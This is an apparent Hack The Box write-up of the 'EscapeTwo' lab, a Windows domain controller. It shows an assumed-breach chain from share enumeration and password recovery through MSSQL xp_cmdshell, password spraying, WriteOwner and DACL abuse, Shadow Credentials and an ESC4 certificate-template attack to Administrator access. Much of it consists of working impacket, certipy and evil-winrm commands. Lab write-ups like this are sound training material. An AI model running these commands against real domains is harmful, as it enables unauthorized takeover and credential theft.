# HTB EscapeTwo Full Walkthrough



## About

EscapeTwo is a Windows Active Directory “assume-breach” machine that shows how credential exposure and weak internal controls can quickly escalate into a full domain compromise. Starting with low-privileged domain credentials, SMB share enumeration leads to a corrupted Excel workbook containing recoverable secrets. Those credentials enable access to MSSQL, where enabling and abusing xp_cmdshell provides remote code execution and an initial foothold on the host.

From the foothold, BloodHound reveals dangerous object permissions (WriteOwner) over a certificate-related service account, allowing ownership takeover and account control. Rather than resetting passwords, escalation is achieved via Shadow Credentials (msDS-KeyCredentialLink) and an AD CS template misconfiguration (ESC4), ultimately resulting in Domain Administrator compromise.

## Network Scans

```bash
Nmap scan report for 10.129.232.128
Host is up (0.10s latency).
Not shown: 65510 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-21 22:27:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-21T22:29:24+00:00; -5s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-21T22:29:24+00:00; -5s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
|   10.129.232.128:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-01-21T22:24:17
|_Not valid after:  2056-01-21T22:24:17
| ms-sql-ntlm-info:
|   10.129.232.128:1433:
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-01-21T22:29:24+00:00; -5s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-21T22:29:24+00:00; -5s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-21T22:29:24+00:00; -5s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49706/tcp open  msrpc         Microsoft Windows RPC
49726/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-01-21T22:28:46
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: -5s, deviation: 0s, median: -5s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   99.02 ms  10.10.14.1
2   107.92 ms 10.129.232.128

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 227.47 seconds
```

The scan results strongly suggest that the target is a Windows Active Directory Domain Controller.

This is supported by:

- DNS (53)
- Kerberos (88)
- LDAP / LDAPS (389 / 636)
- SMB (445)
- Global Catalog (3268 / 3269)
- WinRM (5985)

These are all common services exposed by domain controllers.

What some of these ports mean:

- **53: DNS(Domain Name Resolution).** Resolves host names ↔ IPs. On a domain controller, DNS is critical for AD (clients locate DCs/services via DNS SRV records).

- **88: Kerberos.** Default authentication protocol for Active Directory. Presence of 88 is a strong we are dealing with a domain environment.

- **135: MSRPC.** Many Windows management functions start here before switching to a dynamic high port.

- **139: NetBios.** LEgacy SMB over NetBIOS. Still commonly exposed for compatibility. Often found paired with 445

- **445: SMB.** Windows file sharing + many AD-related remote operations. Used for share access, domain/user enumeration, etc

- **636: LDAPS(LDAP over TLS).** Used to query Active Directory securely (users, groups, policies, descriptions, etc)

- **3268: LDAP.** LDAP queries against the Global Catalog (forest-wide index). Useful for searching users/groups across the domain/forest.

- **1433: MSSQL.** A MSSQL server is running on this machine.

- **5985: WinRM.** Windows Remote Management. If credentials allow, this is a common path to remote command execution (e.g., Evil-WinRM).

## Enumerating Services

Since this is an assumed breach scenario and we already have credentials, we can start by authenticating to exposed services and checking what access we have. A good first step is SMB enumeration, and for that we can use NetExec (nxc) to quickly validate authentication and list share permissions.



### SMB Enumeration

From the output, we can see that we have READ access to a non-default share. We can then inspect the share contents to see what is available.



Inside the share, we can see two .xlsx files. We can download both and review them locally.

### Recovering Credentials from Corrupted Excel File

When we try to open accounts.xlsx, we hit an error:



Even though Excel fails to open it, we can still extract data from the file because .xlsx files are ZIP archives that contain XML files. This means we can unzip the workbook and manually inspect its internal contents.

After checking the XML files, we can recover a list of usernames and passwords, including what looks like valid MSSQL credentials.



Once we have what looks like MSSQL credentials, we can validate them against the SQL service using NetExec:


At this point, we can confirm that the credentials are valid and we have meaningful access to the SQL instance.

### Command Execution via `xp_cmdshell`

Since we have access to MSSQL, we can try to execute OS-level commands using xp_cmdshell, which allows SQL Server to run Windows commands through the SQL Server service account context. This is a powerful feature and is commonly abused for remote code execution when enabled.

Using nxc mssql, we can run commands through xp_cmdshell and work towards a reverse shell:





## Post Exploitation Enumeration & Credential Hunting

Now that we have a foothold as the SQL service context, we can begin by doing some basic host and domain enumeration to identify useful accounts and potential escalation paths.

Since this host is a Domain Controller, we can quickly list known domain users with:

```powershell
net users
```



This gives us a shortlist of domain accounts that are likely relevant later (service accounts, admin users, and potential pivot users). The net user command is also commonly used for querying user information on both local machines and domains.

Since SQL Server is installed on the machine (and we already compromised the SQL service), we can check the filesystem for common SQL installation artifacts. A quick directory listing shows a suspicious folder:



We can then inspect files inside this directory, especially configuration-related ones, since they sometimes contain service account information.

One particularly valuable file is:

```
cat C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI
```

Inside this configuration file, we can see the SQL service account details, including the service username and a stored password:



### Password Spraying Across Services
Now that we have a credential candidate (sql_svc), we can validate whether the credentials are reused elsewhere across the domain. A practical approach is to test authentication against multiple protocols (SMB, WinRM, LDAP, MSSQL, etc.) using NetExec.

We can automate this using a script that checks one password across a list of usernames:



From the output, we can confirm which users authenticate successfully and most importantly, whether we have remote execution capability.

When NetExec prints `(Pwn3d!)`, it indicates the credentials provide command execution / admin-level access on that protocol (for example, WinRM access commonly implies we can get a remote shell).

In this case, we can see that a domain user (ryan) returns Pwn3d! over WinRM, meaning we can likely establish a stable interactive session. We can do this by using Evil-WinRM:

```bash
evil-winrm -i 10.129.232.128 -u ryan -p '<password>'
```

## Active Directory Enumeration

Now that we have a stable domain user foothold (`ryan`), we can enumerate Active Directory relationships to identify privilege escalation paths. A common approach is collecting data for BloodHound, which helps map hidden permission chains in AD environments.

We can collect BloodHound data from our machine using `bloodhound-ce-python` to avoid needing to upload a collector on the target machine.

```bash
bloodhound-ce-python -c All -d sequel.htb -u 'SEQUEL\ryan' -p '<password>' -ns 10.129.232.128 -dc DC01.sequel.htb --zip
```

This generates a `.zip` file that we can upload into BloodHound CE for analysis.

Once the data is imported, we can search for attack paths from ryan and quickly spot something important:



BloodHound reveals that `ryan` has `WriteOwner` privileges over `ca_svc`.
This is a dangerous permission because if we can change an object’s owner, we can usually modify its permissions afterward and effectively take control of it.

### Abusing WriteOwner

Since we have `WriteOwner`, we can change the ownership of `ca_svc` to ourselves using Impacket’s `owneredit`.

```bash
impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb/ryan:<password>'
```



Once we become the owner, we can modify the object’s DACL and grant ourselves full rights over `ca_svc` using `dacledit`.

```bash
impacket-dacledit -action write -rights FullControl -principal 'ryan' -target 'ca_svc' 'sequel.htb/ryan:<password>'
```



At this stage, we effectively have control over the ca_svc account without needing its password.

### Shadow Credentials

Instead of resetting the account password (which is noisy and can break services), we can perform a Shadow Credentials attack. This technique works by adding a KeyCredential to the target account’s `msDS-KeyCredentialLink`, then using PKINIT certificate-based authentication to obtain a Kerberos TGT as that user.

We can do this automatically using Certipy’s `shadow auto` feature.

```bash
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -account ca_svc -dc-ip 10.129.232.128 -debug
```

If successful, we should see Certipy generate a certificate, inject the KeyCredential, and retrieve a Kerberos ticket:



## AD CS Enumeration

At this stage, we already have control over the ca_svc account using Shadow Credentials, meaning we can authenticate as ca_svc without needing its password. Now we can start looking at Active Directory Certificate Services (AD CS) for escalation opportunities.

AD CS is Microsoft’s PKI implementation, and in many environments it is configured to allow certificates to be used for domain authentication. If misconfigured, it can allow attackers to request certificates that effectively act like valid logon credentials.

We can enumerate certificate templates and check for misconfigurations using Certipy. In our case, Certipy flags an ESC4 condition:



This tells us that our current principal has enough rights to modify the certificate template itself, which is extremely powerful.

### What is ESC4

ESC4 is one of the abuse primitives described in SpecterOps’ Certified Pre-Owned research. ESC4 happens when a non-admin principal has dangerous permissions over a certificate template, allowing them to modify the template configuration.

A a certificate template can be thought as a rulebook/application form:

- “Who is allowed to request certificates?”
- “What can the certificate be used for?”
- “Can the requester choose the identity inside the certificate (like Administrator)?”

Instead of relying on a template that is already vulnerable, ESC4 lets us turn a normal template into a vulnerable one by editing it.

### Exploiting ESC4

Now that we know we can edit the template, we can reconfigure it into a known “vulnerable” state.

Certipy provides a very convenient way to do this using

- `certipy-ad template`
- `-write-default-configuration`

This option modifies the target template into a configuration that resembles the ESC1-style abuse path (where we can request a certificate and specify an arbitrary identity).

We can run the following command as `ca_svc`:

```bash
certipy-ad template -u ca_svc@sequel.htb -hashes <ca_svc_hash> -dc-ip 10.129.1.145 -template DunderMifflinAuthentication -write-default-configuration
```

If successful, we should see confirmation that the template was updated:


By modifying the template, we are effectively enabling conditions that make it possible to request a certificate that can authenticate as another user.

### Requesting Certificate as Administrator

Once the template is in a vulnerable configuration, we can request a certificate while specifying the identity we want.

Here, we request a certificate for UPN = `administrator@sequel.htb`

```bash
certipy-ad req -u ca_svc@sequel.htb -hashes <ca_svc_hash> -dc-ip 10.129.1.145 -template DunderMifflinAuthentication -target 'DC01.sequel.htb' -ca 'sequel-DC01-CA' -upn 'administrator@sequel.htb' -ns 10.129.1.145 -dns 'DC01.sequel.htb'
```

In our case, the request succeeds:



This generates a .pfx file (certificate + private key), which we can now use for authentication.

## Administrator Shell

Once we have the Administrator certificate, we can use:

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 10.129.1.145
```

Certipy performs PKINIT authentication, obtains a Kerberos TGT, and can retrieve the NTLM hash for the authenticated user.


Since WinRM is exposed on the target, we can authenticate using the extracted hash with Evil-WinRM:

```bash
evil-winrm -i 10.129.1.145 -u administrator -H <admin_ntlm_hash>
```





---

